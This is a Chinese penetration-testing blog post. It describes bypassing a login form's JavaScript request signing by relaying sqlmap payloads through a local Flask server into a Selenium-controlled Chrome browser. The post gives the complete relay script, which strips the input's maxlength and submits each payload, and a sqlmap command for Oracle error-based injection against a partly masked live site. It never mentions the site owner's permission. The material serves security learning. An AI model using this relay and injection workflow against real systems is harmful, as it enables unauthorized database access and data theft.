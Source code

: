```yaml
---
date: 2019-07-27 18:15:25
title: 通过 selenium 和 flask 中转后利用 sqlmap 进行注入
description: 渗透测试中有时候前端提交的数据会进行加密之类的操作, 有些加密的函数还不好找, 其实可以用 selenium 调用 chrome 驱动中转后进行测试。
categories:
  - Pentest
tags:
  - SQL注入
---
```


### 0x00 先说前提
昨天某个小伙伴说有个注入没法搞
![60](/img/post/Xnip2019-07-27_19-20-07.png)

前端提交登陆表单时数据包加密了, 而且有个 sign 字符串每次都不一样用于校验, 应该是用 js 加密了
![](/img/post/Xnip2019-07-27_18-40-20.png)
![](/img/post/Xnip2019-07-27_18-41-18.png)

### 0x01 找加密的 js 文件
注入的地方是获取验证码时的手机号, 刚开始想着先找到 js 加密的函数, 然后生成 sign 再组数据包发送。

就像 [记一次SQL Server报错注入](/posts/2018/recording-an-sqlserver-sql-injection-of-error-based/) 中一样, 用 selenium 或者 PhantomJS 执行 js 代码生成sign

一番查找发现了加密的 js 文件函数, 但是用的是 angular 这个前端框架, 没用过这个东西。。。。。
![80](/img/post/Xnip2019-07-27_19-06-48.png)
![80](/img/post/Xnip2019-07-27_19-12-37.png)

能看懂一般的 js 代码, 但是这个没得搞, 不懂。。。

### 0x02 数据中转
本来昨天我已经放弃了的, 结果今天上午小伙伴又找我了, 说还没有整好, 又看了一通 js, 仍然无解, 看不懂。。。

想起昨天有个大佬说用 PhantomJS + flask 这样、那样、再这样, 中转数据就可以用 sqlmap 跑了, emmmmm。。。

<div style="display: flex;align-items: center;justify-content: center;">
    <img src="/img/post/Xnip2019-07-27_20-01-02.png" style="width: 50%;height: 50%;" />
</div><br>

虽然很早以前用过 asp 的 [Cookie 注入中转](/posts/2015/injection-of-asp-in-the-cookie/?_blank) , 但是那个是软件, 一直没有搞懂原理, 现在正好趁机学下

经过各种百度, 大概明白了, 应是本地起个 server, sqlmap 就扫描这个 server, server 接收到 payload 后将 payload 加到表单中, 然后模拟提交表单

### 0x03 selenium 和 flask 进行中转
没有接触过 PhantomJS, 但是 selenium 以前用过, 可以尝试下

大概看了下, 我们需要注意动态的消息提示框, 需要处理 input 的长度
![90](/img/post/Xnip2019-07-27_20-25-39.png)

大概代码就是下面这样了:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
'''
@Author: reber
@Mail: reber0ask@qq.com
@Date: 2019-03-22 16:22:59
@LastEditTime: 2019-07-22 09:17:05
'''

import time
from lxml import etree
from flask import Flask
from flask import request
from selenium import webdriver
from selenium.webdriver.chrome.options import Options

# chrome_options = Options()
# chrome_options.add_argument('--headless')
# chrome = webdriver.Chrome(executable_path="/opt/chromedriver", options=chrome_options)
chrome = webdriver.Chrome(executable_path="/opt/chromedriver")
chrome.get("https://cx.xxxxxxx.cn/#dashboard")


app = Flask(__name__)

def send(payload):
    # 用两种登陆方式, 这里切换到验证码登陆方式
    chrome.find_element_by_link_text("手机登录").click()

    # 手机号长度有限制, 去除 input 的 maxlength 属性
    chrome.execute_script("document.getElementById('modile').removeAttribute('maxlength')")

    # 给 input 标签赋值
    chrome.find_element_by_id("modile").send_keys(payload)

    # 点击发送验证码
    chrome.find_element_by_id("BtnphoneNote").click()

    # 网速不好时服务器返回数据慢所以用 while
    while True:
        selector = etree.HTML(chrome.page_source)
        message = selector.xpath("//div[@class='ng-binding ng-scope']/text()")
        if message:
            time.sleep(0.5)
            # 得到返回的信息后, 关闭信息提示框, 然后清除 input 的内容便于发送下一个 payload
            chrome.find_element_by_class_name("close").click()
            chrome.find_element_by_id("modile").clear()
            break
        time.sleep(0.5)
    return "ttttt"+message[0]

@app.route('/')
def index():
    payload = request.args.get("payload")
    return send(payload)


if __name__ == "__main__":
    app.run()
```

### 0x04 sqlmap 测试效果
* 启动 flask 服务

```
[16:09 reber@wyb at ~/Pentest]
➜  python3 tmp.py
* Serving Flask app "tmp" (lazy loading)
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
* Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
```

* 使用 sqlmap 尝试扫描

```
sqlmap --risk 2 --level 3 --tamper space2comment --batch --random-agent -u "http://127.0.0.1:5000/?payload=13188888888*" --dbms="Oracle" --technique=E --current-db
```

* flask 接收到了payload

![](/img/post/Xnip2019-07-27_20-42-19.png)

* sqlmap 执行结果

![](/img/post/Xnip2019-07-27_20-40-16.png)


<br>
#### Reference(侵删)：
* [sqlmap 代理绕过参数 hash 验证](https://www.0dayhack.com/post-677.html?_blank)